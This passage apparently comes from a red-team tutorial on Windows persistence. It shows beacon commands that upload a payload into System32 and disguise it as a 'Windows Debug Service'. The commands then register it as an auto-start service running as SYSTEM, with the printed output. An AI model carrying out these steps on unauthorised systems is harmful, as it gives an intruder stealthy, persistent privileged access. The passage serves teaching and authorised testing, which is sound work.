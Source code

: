 An adversary can also create a Windows service to run a payload under the context of SYSTEM, which will start when the computer boots up.

```powershell
beacon> cd C:\Windows\System32\
beacon> upload C:\Payloads\beacon_x64.svc.exe
beacon> mv beacon_x64.svc.exe debug_svc.exe

beacon> sc_create dbgsvc "Debug Service" C:\Windows\System32\debug_svc.exe "Windows Debug Service" 0 2 3

 create_service:
  hostname:     
  servicename:  dbgsvc
  displayname:  Debug Service
  binpath:      C:\Windows\System32\debug_svc.exe
  newdesc:      The Windows Debug Service
  desclen:      26
  ignoremode:   0
  startmode:    2
  service_type: 10
SUCCESS.
```

Use `sc_qc` to verify that the service was created successfully.

```powershell
beacon> sc_qc dbgsvc

SERVICE_NAME: dbgsvc
	TYPE                 : 10 WIN32_OWN
	START_TYPE           : 2 AUTO_START
	ERROR_CONTROL        : 0 IGNORE
	BINARY_PATH_NAME     : C:\Windows\System32\debug_svc.exe
	LOAD_ORDER_GROUP     : 
	TAG                  : 0
	DISPLAY_NAME         : Debug Service
	DEPENDENCIES         : 
	SERVICE_START_NAME   : LocalSystem
	CURRENT_STATUS       : STOPPED
```